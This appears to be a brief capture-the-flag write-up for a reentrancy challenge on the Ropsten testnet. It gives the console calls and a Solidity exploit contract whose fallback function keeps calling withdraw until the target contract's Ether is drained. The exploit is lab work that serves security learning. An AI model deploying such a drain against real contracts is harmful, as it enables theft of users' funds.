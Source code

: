 Initial donation:
```javascript
await contract.donate.sendTransaction(
    "0x6eE701bFA154aDDDeaD9fB6daF4D9a47b58182C2", 
    {
        from: player, 
        to: instance, 
        value: toWei(0.5)
    }
)
```

Exploiting contract:
```solidity
pragma solidity ^0.4.18;

interface Reentrance {
    function withdraw(uint _amount) external;
}

contract Exploit {
    function() public payable {
        address instance = 0x3f5386Fa3FBF9aD8CFD9E8a3253De9C2Ce674c1F;
        Reentrance r = Reentrance(instance);
        if (address(instance).balance > 0) {
            r.withdraw(0.5 ether);
        }
    }
}
```

Kick off the attack. We need to provide more gas than usual as this transaction requires more processing:
```javascript
await sendTransaction({from: player, to: "0x6eE701bFA154aDDDeaD9fB6daF4D9a47b58182C2", gas: 3000000})
```

Transaction: https://ropsten.etherscan.io/tx/0x775511ddba99622fc059a470e401c90ce6a3e429570f69d8157c230da7d33d5b
Contract: https://ropsten.etherscan.io/address/0x6ee701bfa154adddead9fb6daf4d9a47b58182c2